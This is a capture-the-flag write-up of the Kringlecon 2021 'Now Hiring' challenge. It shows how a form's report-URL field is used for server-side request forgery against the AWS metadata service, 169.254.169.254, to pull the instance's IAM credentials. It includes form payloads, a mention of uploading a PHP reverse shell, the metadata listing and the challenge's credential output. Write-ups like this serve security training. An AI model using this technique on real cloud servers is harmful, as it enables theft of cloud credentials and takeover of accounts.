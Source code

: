 ```yaml
---
title: Kringlecon 2021 - Now Hiring
---
```

# Introduction
This is a challenge that I truely do reccomend doing. It teaches you something about AWS IMDS, something that is compleatly new to me. I suggest reading this page first to grasp a better understanding of what we are actually doing on the serverside. https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
The description for the challenge is: *What is the secret access key for the Jack Frost Tower job applications server? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.*
So we are after a secret key.

# Recon
The current target is this webpage: https://apply.jackfrosttower.com/. A simple nmap scan did reveal several open ports, but none of those will be used in this write up.
The page is simple and lets you apply to join the Jack Frost team. The four pages are Home, Opportunities, Apply or About. Dirb did find https://apply.jackfrosttower.com/images/, the dir itself is 403 forbidden, but manually finding pictures there is allowed. I'll save that for later. 
Further enumeration surronding media on the site shows that the photos under opportunity are broken and have no data. Strange, but might help. 
The apply application lets you upload files and asks for Name, Email, Phone number, URL to NLBI report and additional information. 
What is a NLBI report? http://nppd.northpolechristmastown.com/
It's a report athat you are injustly set on the naughty list. I'm guessing it does a check up against that url to see if the user is allowed to apply.

So to summerize:
- We can most likely send the server to an url
- We can upload files
- We can manually check for images in the image folder if we know the name

We need to send something in the form to check the output, additionally I will start burp to make it easier to enumerate via the repeater.
I like to put unique values to see where they end up. By that we can easier understand what gave what error.
The email form didn't like that i added chars that were illegal, but thats on the clientside. Just edit the form with inspector to change the type field from email to text and you're good to go.
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=php-reverse-shell.php (this file will not call back to me sience it is coded to a 192.168 address, but I wan't to see what happens).
URL to your public NLBI report = http://nppd.northpolechristmastown.com/infractions 
Additional information = Give root pls
```
With these parameters I only recive a submission recived. I can't find our data anywhere, so this must not be it.
I'm going to try IMDS to see what we recive:
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=php-reverse-shell.php (this file will not call back to me sience it is coded to a 192.168 address, but I wan't to see what happens).
URL to your public NLBI report = http://169.254.169.254/latest/meta-data/
Additional information = Give root pls
```
This results in a new page! It tells us that they will be in touch. And we see a picture that is broken. But upon inspecting the picture, we seee that there is data in it. I downloaded it and tried to read the output. It resulted in the following:
```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
iam/security-credentials/jf-deploy-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
mac
network/interfaces/macs/0e:49:61:0f:c3:11/device-number
network/interfaces/macs/0e:49:61:0f:c3:11/interface-id
network/interfaces/macs/0e:49:61:0f:c3:11/ipv4-associations/192.0.2.54
network/interfaces/macs/0e:49:61:0f:c3:11/ipv6s
network/interfaces/macs/0e:49:61:0f:c3:11/local-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/local-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/mac
network/interfaces/macs/0e:49:61:0f:c3:11/owner-id
network/interfaces/macs/0e:49:61:0f:c3:11/public-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/public-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/security-group-ids
network/interfaces/macs/0e:49:61:0f:c3:11/security-groups
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-id
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv6-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-id
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv6-cidr-blocks
placement/availability-zone
placement/availability-zone-id
placement/group-name
placement/host-id
placement/partition-number
placement/region
product-codes
public-hostname
public-ipv4
public-keys/0/openssh-key
reservation-id
security-groups
services/domain
services/partition
spot/instance-action
spot/termination-time
```
So our query succeeded! We are using SSRF and IMDS to retrive information about the backend. Well, our goal is to retrive the public key, so lets do that!

# Exploitation
I used the following payload for my exploit:
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=
URL to your public NLBI report = http://169.254.169.254/latest/meta-data/iam/security-credentials
Additional information = Give root pls
```
**The result**
```
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```

And there we got our flag!

# Final thoughts
I'm not sure how real world this is by having the results put into a picture. But the creativity makes it so much more fun.
If you want to do this in burp you can, then you have to go to the images subpage we found earlier and get them from there.
